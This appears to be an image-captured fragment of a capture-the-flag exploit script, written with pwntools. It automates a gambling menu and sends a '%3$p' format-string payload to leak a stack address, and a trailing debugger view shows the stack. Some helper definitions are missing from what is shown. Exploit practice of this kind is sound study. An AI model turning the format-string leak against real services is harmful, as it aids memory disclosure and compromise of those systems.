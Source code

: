 ```

def isFibonacci(x):
    x = int(x)
    return isPerfectSquare(5*x*x+4) or isPerfectSquare(5*x*x-4)

def auto_gamble(x):
    p.recvuntil(b': ', drop=True)
    p.sendline("1")
    p.recvuntil(b'1) ', drop=True)
    one = p.recvline()
    #log.info(one)
    p.recvuntil(b'2) ', drop=True)
    two = p.recvline()
    #log.info(two)
    p.recvuntil(b'3) ', drop=True)
    three = p.recvline()
    #log.info(three)
    p.recvuntil(b'4) ', drop=True)
    four = p.recvline()
    #log.info(four)
    p.recvuntil(b'5) ', drop=True)
    five = p.recvline() 
    #log.info(five)
    p.recvuntil(b'> ', drop=True)
    if not isFibonacci(one):
        p.sendline("1")
        #log.info("1")
    elif not isFibonacci(two):
        p.sendline("2")
        #log.info("2")
    elif not isFibonacci(three):
        p.sendline("3")
        #log.info("3")
    elif not isFibonacci(four):
        p.sendline("4")
        #log.info("4")
    else:
        p.sendline("5")
        #log.info("5")
    p.recvuntil(b', ', drop=True)
    if x == 1:
        leak = p.recvuntil('!',drop=True)
        p.recvuntil(b'continue...', drop=True)
        p.sendline("a")
        return leak
    else:
        
        return

p.recvuntil(b'> ', drop=True)
payload = b'%3$p'
p.sendline(payload)

p.recvuntil(b'What will you do? ', drop=True)
p.sendline("g")

leak = auto_gamble(1)
log.info(leak)

# Checkpoint above functions leak printf vulnerability successfully
# Inspect stack right before vulnerable printf is called
#========================================================
# 00:0000│ esp 0xffffcd70 —▸ 0xffffcd84 ◂— '%3$p'
```